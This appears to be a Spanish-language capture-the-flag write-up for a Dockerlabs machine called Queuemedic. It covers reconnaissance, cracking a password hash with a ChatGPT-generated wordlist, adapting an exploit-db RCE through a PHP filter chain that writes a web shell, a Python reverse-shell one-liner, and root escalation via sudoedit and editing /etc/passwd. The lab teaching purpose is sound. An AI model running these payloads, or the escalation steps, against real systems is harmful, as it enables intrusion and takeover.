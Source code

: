 # Docerlabs - Queuemedic - Hard

### 1) Iniciamos la maquina.
```bash
sudo ./auto_deploy.sh queuemedic.tar
```

![](ANEXOS/Pasted%20image%2020240925173632.png)

### 2) Nos dirigimos al navegador e ingresamos la dirección http://172.17.0.2.
![](ANEXOS/Pasted%20image%2020240925173823.png)

***Al ingresar a la url se carga un formulario de acceso.***

![](ANEXOS/Pasted%20image%2020240925180151.png)

***Analizando la web con wappalyzer no se encontró ninguna información que nos pueda llamar la atención para investigar.***

### 3) Realizamos un escaneo de puertos con nmap.
```shell
nmap -sV -Pn 172.17.0.2 
```

![[Pasted image 20240925174021.png]]
*Al terminar el proceso se encontró un solo puerto abierto el 80 con un servidor Apache.*

### 4) Realizamos una búsqueda de carpetas y archivos con gobuster.

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt --exclude-length 0,275
```

![[Pasted image 20240925174813.png]]
*Al terminar el proceso se encontro con varias carpetas con posibles datos sensibles ellas son /backup y /db.*

### 5) Nos dirigimos a la url de /backup http://172.17.0.2/backup.

![[Pasted image 20240925175148.png]]
*Al ingresar vemos un archivo con extensión .zip lo cual procedemos a descargarlo para su posterior análisis.*

### 6) Nos dirigimos a la url de /db http://172.17.0.2/db.
 
![[Pasted image 20240925175503.png]]
*Al ingresar observamos un archivo con extensión .db lo cual procedemos a descargarlo para su posterior análisis.*

### 7) Analizamos los archivos descargados:
	a) Descomprimimos y verificamos el contenido del archivo backup.zip.	
	
	![[Pasted image 20240925175854.png]]
	*Nos encontramos con un backup completo del sistema Clinic Queuing System, en el cual realizando un análisis de cada archivo se encontró una posible vulnerabilidad en "index.php "en el método que utiliza para llamar a "page".*
	
	b) Abrimos el archivo clinic_queuing_db.db con sqlitebrowser.
	
	![[Pasted image 20240925180826.png]]
	*Al abrir la base de datos podemos ver las tablas de la db y desplegamos la tabla user_list*
	![[Pasted image 20240925181901.png]]
	*Al realizar la consulta sobre esta tabla user_list, se puede observar el contenido del mismo con los datos de username y password en la cual esta encriptada.*
	
### 8) Ataque de diccionario a los hashes encontrados.
	a) *Al realizar el ataque por fuerza bruta no se pudo obtener la contraseña de Administrador.*
	b) *Para obtener una lista con posibles contraseña para el usuario "Jessica Castro" utilizamos ChatGpt en el cual nos brinda una lista de 100 posibles contraseñas.*
	
	![[Pasted image 20240925183606.png]]
	![[Pasted image 20240925183512.png]]
	c) *Al finalizar el ataque por fuerza bruta con john the ripper pudo obtener una contraseña que concuerda con el hash del usuario "jessica" la cual es "j.castro".*

### 9) Volviendo la pagina principal en el login http://172.17.0.2.
![[Pasted image 20240925184644.png]]
*Iniciamos sesión con las credenciales obtenidas.*
![[Pasted image 20240925184845.png]]
*Analizando la pagina web ademas de un xss en el registro de usuarios y pasientes no se encontro.*

### 10) Busueda de Clinic Queuing System (php) en google.
![[Pasted image 20240925185754.png]]
*Al realizar la búsqueda en google no encontramos con el cms pero también arrojo en exploit-db un exploit en el cual se pude obtener RCE.*

### 11) Descarga https://www.exploit-db.com/exploits/52008 y análisis del exploit.

### 12) Al descargar y ejecutar el exploit vemos que no realiza la explotación del servicio.
	![[Pasted image 20241011082236.png]]

### 13) Analizando en detalle el código del sitio y el exploit encontré que había unas validaciones que hace la pagina por lo cual el exploit no puede realizar correctamente su cometido. 

### 14) Fijándome mas en detalle tengo acceso a un usuario que es administrador y en el exploit crea un usuario administrador entonces lo que se me ocurrió a analizar en que parámetros inyecta para obtener un RCE.
	![[Pasted image 20241011083138.png]]

### 15) Como se observa en la imagen el exploit inyecta en el parámetro `?page=` un `filter_chain` y después en el parámetro `&0=`, crea el archivo `rce.php` y escribe el contendido ``<?=`$_GET[0]`?>`` parseado en base64.

### 16) Entonces lo que tuve que hacer es unir todo el contenido de la variable `filter_chain` mas el parámetro 0 y ejecutarlo directamente en el navegador.
	![[Pasted image 20241011085843.png]]
	*El `filter_chain` es mas extenso pero así quedaría para inyectarlo directamente al navegador.*
	![[Pasted image 20241011090029.png]]
	*Ya tengo ejecución de comandos *

### 17) Ahora creo una reverse shell utilizando python3.

 ```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
 ```
 
 y en mi consola obtengo la conexión.
	 ![[Pasted image 20241011090521.png]]
	 
### 18) Luego del tratamiento de la tty, listo el contenido del escritorio donde estoy ubicado y también listo la carpeta /home, en el cual encontré una carpeta jessica del que creo que es un usuario de sistema entonces realizo un cat al archivo /etc/passwd y encuentro al usuario.
	 ![[Pasted image 20241011092359.png]]

### 19) Como tengo un usuario llamado con el mismo nombre que el usuario de la web y como ya tengo una contraseña lo que hago es poner la misma contraseña y ahi ingreso al usuario jessica del sistema.
	 ![[Pasted image 20241011092814.png]]

### 20) Ahora con `sudo -l` listo los privilegios que tiene el usuario jessica, en este caso tiene los privilegios root para utilizar suodedit en la varpeta /var/www/html/.
	![[Pasted image 20241011102543.png]]

### 21) Para elevar privilegios a root primeramente tengo que setear el editor global a nano ya que vim no esta instalado y al editarlo también pongo la opción que se me abra para editar el archivo /etc/passwd.
	![[Pasted image 20241011103016.png]]

### 22) Ahora que ya tengo todo seteado abro el editor en la ubicación que vimos al listar son sudo -l, entonces ejecuto sudoedit /var/www/html/, Se me abrirá automáticamente el archivo /etc/passwd.
	![[Pasted image 20241011103622.png]]

### 23) Ahora que obtuve acceso para editar el archivo /etc/passwd como root lo que queda es eliminar la letra x que esta en el usuario root y esto significa que le quito la contraseña que tenia asignada anteriormente.
	![[Pasted image 20241011103944.png]]

### 24) Guardo los cambios y salgo y luego escribo su y presiono enter y ya obtengo acceso a root.
![[Pasted image 20241011104942.png]]
